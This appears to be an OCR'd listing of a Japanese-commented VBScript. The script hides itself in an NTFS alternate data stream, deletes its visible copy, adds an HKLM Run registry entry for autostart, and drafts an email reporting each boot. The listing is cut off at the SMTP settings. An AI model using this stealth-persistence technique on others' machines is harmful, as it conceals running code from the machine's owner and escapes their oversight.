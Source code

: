 '現在のボリュームがNTFSでなければ終了
Set oDrive \= oFSO.GetDrive(oFSO.GetDriveName(WScript.ScriptFullName)) 
If oDrive.FileSystem <> "NTFS" Then
 MsgBox "NTFSボリュームではないためインストールできません"
 WScript.Quit
End If

'自分のファイル名を取得
Set oMyself \= oFSO.GetFile(WScript.ScriptFullName)
sFileName \= oMyself.Name
sFolder \= Left(oMyself.Path, Len(oMyself) \- Len(sFileName) \- 1)

'代替ストリームからの起動でなければ、
'自分が格納されているフォルダへ、自分自身を代替ストリームとしてコピー
If InStr(sFileName, ":") \= 0 Then
 If Len(sFolder) \= 2 Then
  MsgBox("ルートフォルダから起動されています。フォルダ内で起動してください")
  WScript.Quit
 Else
  sPath \= sFolder + ":" + sFileName
  oMyself.Copy(sPath)
  oMyself.Delete
  MsgBox(sPath + "に移動しました")
 End If
Else
 sPath \= oMyself
End If

'自動起動するようレジストリに書き込む
Set oShell \= WScript.CreateObject("WScript.Shell")
If Err.Number \= 0 Then
 sRegPath \= "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\run\test"
 oShell.RegWrite sRegPath, sPath, "REG_SZ"
Else
 MsgBox("レジストリが読み込めません")
End If

'メールの作成
Set oMsg \= WScript.CreateObject("CDO.Message")
oMsg.From \="送信元メールアドレス"
oMsg.To \= "送信先メールアドレス"
oMsg.Subject \= "起動ログ"
oMsg.TextBody \= "マシンが起動されました" & vbCrLf & Now

'以下は外部SMTPを利用する場合のみ設定
'外部SMTPを利用する場合は、sendusingを2とする
'oMsg.Configuration.Fields.Item ("http://schemas.microsoft.com/cdo/configuration/sendusing") \= 2
'SMTPサーバのアドレス
'oMsg.Configuration.Fields.Item ("http://schemas.microsoft.com/cdo/configuration/smtpserver") \= "サーバのアドレス"
'SMTPに利用するポート番号
'oMsg.Configuration.Fields.Item ("http://schemas.microsoft.com/cdo/configuration/smtpserverport") \= ポート番号
